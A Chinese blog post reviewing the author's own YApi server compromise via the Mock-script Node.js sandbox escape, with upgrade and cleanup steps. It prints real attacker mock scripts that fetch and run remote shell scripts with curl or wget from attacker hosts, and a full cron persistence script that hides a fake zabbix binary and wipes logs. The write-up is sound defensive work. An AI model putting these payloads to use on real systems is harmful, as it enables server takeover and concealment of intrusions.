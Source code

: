 ```yaml
---
title: YApi 漏洞复盘及解决方案
comments: true
toc: true
permalink: posts/yapi-vulnerability-review/
date: 2021-07-27 06:40:01
categories: Linux
tags:
- Linux
- 漏洞
---
```


今天为了 OPPO 商城的学生认证上了一下教育邮箱，去邮箱验证的时候发现收件箱收了一堆莫名其妙的退信，然后再一看发件箱，发现被拿来发了一堆的广告，感觉大事不妙。

扫了一下发件箱，发现有一条发送给某个随机邮箱说 YApi 注册成功的信息，我在自己的公网服务上是部署了一个 YApi，又想到好像最近有 YApi 的漏洞。

于是登上了 YApi 看了一下，注册用户中果然多了一堆莫名的乱码帐号。

看起来服务器是安然无恙的，所幸我是用 Docker 运行的 YApi。

<!-- more -->

## 漏洞概述

让专业的人来说：

{% blockquote 0x4qE@知道创宇404实验室 https://paper.seebug.org/1639/ %}

[Yapi](https://github.com/YMFE/yapi) 是高效、易用、功能强大的 api 管理平台，旨在为开发、产品、测试人员提供更优雅的接口管理服务。可以帮助开发者轻松创建、发布、维护 API，YApi 还为用户提供了优秀的交互体验，开发人员只需利用平台提供的接口数据写入工具以及简单的点击操作就可以实现接口的管理。

2021年7月8日，有用户在 GitHub 上发布了遭受攻击的相关信息。攻击者通过注册用户，并使用 Mock 功能实现远程命令执行。命令执行的原理是 Node.js 通过 `require('vm')` 来构建沙箱环境，而攻击者可以通过原型链改变沙箱环境运行的上下文，从而达到沙箱逃逸的效果。通过 `vm.runInNewContext("this.constructor.constructor('return process')()")` 即可获得一个 process 对象。

{% endblockquote %}

推荐大家看看这个原文。

## 好嘛，解决它

这还是我第一次直面漏洞。

看了一些解决方案：

- <https://github.com/YMFE/yapi/issues/2229>
- <https://mp.weixin.qq.com/s/yKDmMrhaWZIOTPsz6zqHYA>

所以接下来就是关闭漏洞利用 ＆ 止损。

### 升级版本

更新 Yapi 至官方发布的 1.9.3，新版本用了更为安全的 safeify 模块，可以有效地防止这个漏洞。

我用的是 <https://github.com/fjc0k/docker-YApi>，

```bash
docker-compose pull yapi-web \
  && docker-compose down \
  && docker-compose up -d
```

### 关闭YAPI用户注册功能

在 `docker-compose.yml` 配置环境变量 `YAPI_CLOSE_REGISTER` 为 true 即可。

然后重启 compose：

```sh
docker-compose restart
```

### 删除 mock 脚本

首先进入 Mongo 的容器内，然后连接数据库，删除掉已有的 mock 脚本：

```bash
docker-compose exec yapi-mongo /bin/bash
mongo

# 数据库相关操作
> show dbs
> use yapi
> show tables
```

然后就能看到本地已有的表，需要删除 mock 脚本，先看一下有什么 Mock 脚本：

```bash
> db.adv_mock.find()
# 就能看到一堆 带有 sandbox 字样的 mock_script
{ "_id" : 10, "enable" : true, "interface_id" : 327, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami && echo 123456789\").toString()", "project_id" : 59, "uid" : "194", "up_time" : 1601333575, "__v" : 0 }
{ "_id" : 16, "enable" : true, "interface_id" : 332, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami && echo 123456789\").toString()", "project_id" : 67, "uid" : "201", "up_time" : 1601335228, "__v" : 0 }
{ "_id" : 76, "enable" : true, "interface_id" : 742, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami\").toString()", "project_id" : 179, "uid" : "299", "up_time" : 1625730796, "__v" : 0 }
{ "_id" : 82, "enable" : true, "interface_id" : 772, "mock_script" : "\n        const sandbox = this; // 获取Context\n        const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数\n        const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数\n        const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量\n        const process = myfun();\n        mockJson = process.mainModule.require(\"child_process\").execSync(\"curl -L https://jhx15.zzlxrj.com/Uploads/image/goods/2021-06-07/start.sh | bash -s '46n4YeKAjUp2FcJnx8SFEb5CMK3kMRJ9o9MEuCzWtv2VEF5LYeq6TJKSWV3h4sEj4CQiUmsb2dNMEQcKJZJM8zCYFp7wFoy'\").toString()", "project_id" : 227, "uid" : "355", "up_time" : 1626338890, "__v" : 0 }
{ "_id" : 88, "enable" : true, "interface_id" : 787, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"curl http://47.98.198.11:8015/init.sh | bash\").toString()", "project_id" : 243, "uid" : "383", "up_time" : 1625989857, "__v" : 0 }
{ "_id" : 94, "enable" : true, "interface_id" : 792, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 251, "uid" : "390", "up_time" : 1625991205, "__v" : 0 }
{ "_id" : 100, "enable" : true, "interface_id" : 827, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 267, "uid" : "404", "up_time" : 1626096094, "__v" : 0 }
{ "_id" : 106, "enable" : true, "interface_id" : 832, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 275, "uid" : "411", "up_time" : 1626096134, "__v" : 0 }
{ "_id" : 124, "enable" : true, "interface_id" : 922, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nvar t = process[\"\\x6d\\x61\\x69\\x6e\\x4d\\x6f\\x64\\x75\\x6c\\x65\"][\"\\x72\\x65\\x71\\x75\\x69\\x72\\x65\"](\"\\x63\\x68\\x69\\x6c\\x64\\x5f\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\")\r\nmockJson=t.execSync(\"wget -qO- http://47.98.198.11:8015/cron.sh | sh \").toString()", "project_id" : 315, "uid" : "425", "up_time" : 1626506262, "__v" : 0 }
{ "_id" : 130, "enable" : true, "interface_id" : 992, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"echo 123321vul\").toString()", "project_id" : 387, "uid" : "635", "up_time" : 1626766514, "__v" : 0 }

> db.adv_mock.deleteMany({"mock_script" : {$regex : "sandbox"}})
```

可以看到是真的有很多利用脚本。。。

打开一个 `cron.sh` 看了一下：

```sh
#!/bin/bash

crondir1='/var/spool/cron/'"$USER"
crondir2='/var/spool/cron/crontabs/'"$USER"

chmod 777 /usr/bin/chattr
chmod 777 /bin/chattr

unlock_cron()
{
    chattr -ia /etc/crontab
    chattr -R -ia /var/spool/cron
    chattr -R -ia /var/spool/cron/crontabs
    chattr -R -ia /etc/cron.d
}

lock_cron()
{
    chattr +ia ${crondir1}
    chattr +ia ${crondir2}
    chattr +ia /etc/cron.d/zabbix_client
}

rtdir="/etc/zabbix_flag"
echo 1 > ${rtdir}

if [ -f "$rtdir" ]
then
    mv /tmp/zabbix_client /etc/zabbix_client
    unlock_cron
    cat ${crondir1} | grep -E -v "^#" | grep -q "zabbix_client" ||               echo "*/30 * * * * /etc/zabbix_client >/dev/null 2>&1" >> ${crondir1}
    cat ${crondir2} | grep -E -v "^#" | grep -q "zabbix_client" ||               echo "*/30 * * * * /etc/zabbix_client >/dev/null 2>&1" >> ${crondir2}
    cat /etc/cron.d/zabbix_client | grep -E -v "^#" | grep -q "zabbix_client" || echo "*/40 * * * * root /etc/zabbix_client >/dev/null 2>&1" >> /etc/cron.d/zabbix_client
    cat /etc/crontab | grep -E -v "^#" | grep -q "zabbix_client" ||              echo "0 * * * * root /etc/zabbix_client >/dev/null 2>&1" >> /etc/crontab
    crontab -l | grep -E -v "^#" | grep -q "zabbix_client" || (crontab -l ; echo "*/30 * * * * /etc/zabbix_client >/dev/null 2>&1") | crontab -    
    lock_cron
    chmod 777 /etc/zabbix_client
    chattr +ia /etc/zabbix_client
else
    unlock_cron
    crontab -l | grep -E -v "^#" | grep -q "zabbix_client" || (crontab -l ; echo "*/30 * * * * /tmp/zabbix_client >/dev/null 2>&1") | crontab -
    lock_cron
    chmod 777 /tmp/zabbix_client
    chattr +ia /tmp/zabbix_client
fi
iptables -A OUTPUT -p tcp -j ACCEPT
history -c
echo > /var/spool/mail/root
echo > /var/log/wtmp
echo > /var/log/secure
echo > /root/.bash_history
chmod 444 /usr/bin/chattr
chmod 444 /bin/chattr
rm /etc/zabbix_flag
rm cron.sh
```

搜了一下 rabbix 是什么：Real-time monitoring of IT components and services, such as networks, servers, VMs, applications and the cloud.

但是用 docker 的好处就出现了~ docker-compose 停止再启动，一切利用都木有了..

## 后记

这个漏洞很早之前就看过相关新闻，但没联想到会发生在自己身上...
看记录，6.4 号就有人注册了新的 yapi 帐号，止血太晚~

还好是执行在容器里的服务，没有造成太大的损失。

## 参考链接

- <https://github.com/fjc0k/docker-YApi>
- <https://paper.seebug.org/1639/>
- <https://github.com/YMFE/yapi/issues/2229>

